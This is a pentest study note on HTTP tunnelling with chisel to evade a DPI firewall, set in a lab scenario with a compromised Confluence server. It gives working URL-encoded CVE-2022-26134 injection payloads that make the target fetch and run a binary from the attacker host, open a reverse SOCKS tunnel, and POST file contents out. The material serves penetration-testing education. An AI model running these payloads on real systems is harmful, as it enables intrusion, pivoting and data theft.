


---
aliases:
  - HTTP tunneling
  - HTTP tunnel
  - chisel
---
# HTTP Tunneling with Chisel
HTTP Tunneling is a form of [deep packet inspection](./README.md) tunneling which *encapsulates a data stream within [HTTP](../../www/HTTP.md) protocol packets*. The goal of this is to *bypass a DPI device* by making your traffic *look like regular HTTP traffic* (assuming the DPI/ [firewall](../../cybersecurity/defense/firewalls.md) device allows HTTP traffic).
## Scenario
For example, assume you're performing an external [pentest](../../cybersecurity/pen-testing/penetration-testing.md) for a client, and have discovered a Confluence server on their [DMZ](../../networking/design-structure/DMZ.md) which only has [TCP](../../networking/protocols/TCP.md) port `8090` open for HTTP connections (`CONFLUENCE01`). You've compromised the server with a [web-shell](../../cybersecurity/TTPs/exploitation/web-shell.md) which allows you to send commands to `CONFLUENCE01` via HTTP requests.

After performing some enumeration on the popped host, you discover a second server called `MULTISERVER03` on the DMZ, as well as another, more internal network and a third PostgreSQL server attached to it called `PGDATABASE01`. 

Assume you have credentials for `PGDATABASE01` so you want to pivot onto that machine from `CONFLUENCE01`. You might consider using [port redirection](../port-redirection-SSH-tunneling/README.md) or [port forwarding](../../networking/routing/port-forwarding.md) with SSH, but you find that the firewall on the WAN interface is also a Deep Packet Inspector (DPI). 

Assuming the DPI is configured to terminate any connections to `CONFLUENCE01` which *are not HTTP connections*, your only choice is to *tunnel the traffic from your attacking machine through HTTP*, or "encapsulate" it in HTTP so it doesn't get blocked by the DPI.
## Chisel
[_Chisel_](https://github.com/jpillora/chisel) is a tool for HTTP tunneling. It will encapsulate your data stream within HTTP. Additionally it *uses SSH* to encrypt the data! It's designed to use a client/ server architecture and the binary includes *both the client and server*. For chisel to work, the server has to be setup so it can accept a chisel client connection.

Because chisel is written in the sexiest language ever ([golang](../../coding/languages/golang.md)), there are binaries compiled for [Linux](../../computers/linux/README.md), [Windows](../../computers/windows/README.md) and Mac. So, if `CONFLUENCE01` happens to be Windows based, that's fine. We just need to get the Windows version binary onto it and run it. Our Linux based binary on our Kali machine will have no issues connecting to the Windows based binary on the target.

Chisel offers different kinds of port forwarding depending on how you set up the server and the client. For example, you can use chisel for "*reverse port forwarding*" (which is similar to [remote port forwarding](../port-redirection-SSH-tunneling/SSH-tunneling/remote-port-forwarding.md) with SSH).
## Plan
With the above scenario, we need to run chisel as a *server on our Kali machine* and chisel as a *client on `CONFLUENCE01`*. On our Kali machine, chisel will bind a [SOCKS](../port-redirection-SSH-tunneling/SSH-tunneling/dynamic-port-forwarding.md) proxy port. Whatever traffic arrives at the port it will encrypt with SSH and then *push through an HTTP tunnel*.

Once the data arrives *to the chisel client*, the client will *decapsulate it* and then forward it to the *destination server* (which is `PGDATABASE01`).

On our Kali machine, the *chisel server* is listening on port `1080` using SOCKS. All traffic to that port will be *passed through the HTTP tunnel* to the *chisel client* on `CONFLUENCE01`. To the DPI/firewall appliance, all of our traffic through chisel will be *HTTP formatted*. So, regardless of the content, the firewall will allow it to pass through the open `8090` port  on `CONFLUENCE01` .
### Steps
In this scenario, `CONFLUENCE01` is Linux based, so we can use the same binary on both machines to create the connection. We still just have a webshell on `CON01`, so to get the binary onto it, we need to first serve it from our Kali machine, and then send a command through our webshell to fetch it. 

The entire process will look something like this:
1. download the chisel binary from the GitHub onto Kali machine
2. serve the chisel binary using Apache server (Kali machine)
3. use webshell on `CON01` to fetch the binary from Apache server on Kali machine
4. start *chisel server on Kali machine*
5. use webshell to execute *chisel client* on `CON01`
	1. client needs to connect back to our chisel server to create HTTP tunnel
6. use the chisel HTTP tunnel for *hax*
7. profit
## Serve the Binary
(Once we've already downloaded the [right chisel binary](https://github.com/jpillora/chisel/releases) onto our Kali machine) we have to set up a web server to serve it so we can fetch it from `CON01`. 
### Apache web server
First we need to copy the binary to the Apache *web root* on our  kali machine:
```bash
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
```
### Start web server
Now we can start our Apache web server using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
## Fetch the Binary
Now that we're serving the chisel binary from our machine (using the Apache web server), we need to craft a payload for our web shell *which fetches it*. We can use `wget`:
```bash
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
This command also *ensures the binary is executable* via `chmod`.
### Format for cURL
Assume our webshell injection needs to be [character encoded](../web-apps/character-encoding.md) (based off  [_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) which we're leveraging to get the web-shell on `CONFLUENCE01`). Our curl command should look like this after encoding the `wget` payload:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
### Verify
To verify that our injection worked, we can check the Apache server logs. We should see a HTTP [`GET`](../../www/HTTP.md#`GET`) request for `/chisel` (assuming we named the binary `chisel`):
```bash
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```
## Execute Chisel
With both binaries on both machines, we can establish our chisel HTTP tunnel. 
### Chisel Server
On our Kali machine we need to start chisel as the server and have it listen to port `8080`. 
> [!Note]
> We're starting the chisel server on port `8080` but later the *client will trigger port `1080`* on the Kali machine for our SOCKS proxy.
```bash
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```
- `--port` tells chisel to run the server so it's listening on port `8080`
- `--reverse` tells chisel to enable *reverse tunneling*
#### Verify
We can verify the server is running by using [tcpdump](../../CLI-tools/linux/tcpdump.md):
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```
This tells us that our chisel process is listening on port `8080` of the `tun0` interface.
### Chisel Client
We want the client to connect to our *chisel server on the Kali box* (`192.168.118.4:8080`) and then also *create a reverse SOCKS tunnel* (`R:socks`) which will bind to port `1080` *by default*. The `R` prefix in the command specifies a *reverse tunnel* using the SOCKS proxy (bound to `1080`):
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
- `>/dev/null 2>&1` redirects all *output* to `/dev/null` which doesn't exist
	- There is a better way to do the same thing which is less confusing, that is `...R:socks &> /dev/null` (see [file descriptors](../../computers/linux/file-descriptor.md))
- `&` (at the end) will force the process *to run in the background*. This ensures our injection doesn't *hang while waiting for the process to finish*
#### Character Encode for Webshell
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
## Troubleshoot Issues
After running this command you should notice *no output* was returned. That means something is wrong with how we can our client server. To troubleshoot this, we can *redirect `stderr` and `stdout` to a file* and then send that file to our Kali machine *using a [`POST`](../../www/HTTP.md#`POST`) request* (via [curL](../../CLI-tools/linux/remote/curL.md)):
```bash
# New payload:
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/

# Injection command:
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```
- notice that we're sending the `POST` request *to our chisel server* (listening on port `8080`)
- `--data` this tells `curl` to read the file at `/tmp/output` and include it in the body of the `POST` request (as data)
### Check the output
We should receive the above `POST` request on our listening chisel server. We can check `tcpdump` for the request (assuming we kept the earlier `tcpdump` command running):
```bash
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```
The data in the body of the `POST` request tells us that [**glibc**](https://www.gnu.org/software/libc/) (which the chisel client is trying to find) *is not installed on `CONFLUENCE01`*.
### Version Incompatibility
The above error is likely due to `CON01` running *an older [operating system](../../computers/concepts/operating-system.md) version* than our chisel binary is compiled for. We can check for the exact version of chisel  our binary uses with:
```bash
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
Based on some [issues](https://github.com/golang/go/issues/58550)on the Golang repo, we learn that Go binaries compiled with Go 1.2 tend to cause issues with `glibc` if the OS they're running on *does not have a compatible version of `glibc`*. We can try to fix this by using a chisel release *compiled with Go 1.19* (one version of Go below our current version).

Once we download the new binary onto our Kali machine, we'll have to *serve it on the Apache server again* and then do another injection with `wget` to fetch it onto `CON01`:
```bash
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

--2023-10-03 16:33:35--  https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
...
Length: 3494246 (3.3M) [application/octet-stream]
Saving to: 'chisel_1.8.1_linux_amd64.gz'

chisel_1.8.1_linux_am 100%[========================>]   3.33M  9.38MB/s    in 0.4s    

2023-10-03 16:33:37 (9.38 MB/s) - 'chisel_1.8.1_linux_amd64.gz' saved [3494246/3494246]

kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz

kali@kali:~$ sudo cp ./chisel /var/www/html   
[sudo] password for kali:

kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
## TRY AGAIN
Now that we've swapped the incompatible chisel binary out with the new one on `CON01`, we can try to execute it again with an updated `curl` command:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```
### Verify
Now, if we check our `tcpdump` command, we should see output that looks like this:
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```
Additionally, we should see an inbound connection on our *chisel server*:
```bash
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
2023/10/03 18:13:54 server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
2023/10/03 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
**LASTLY** lets check for the reverse SOCKS proxy which should be listening on port `1080` of our Kali machine:
```bash
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*
```
YAY, thank *f_ck*.


> [!Resources]
> - [_Chisel_](https://github.com/jpillora/chisel)
> - [Chisel Github releases page](https://github.com/jpillora/chisel/releases)
> -  [_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)
> - [Golang GitHub issues about `glibc`](https://github.com/golang/go/issues/58550)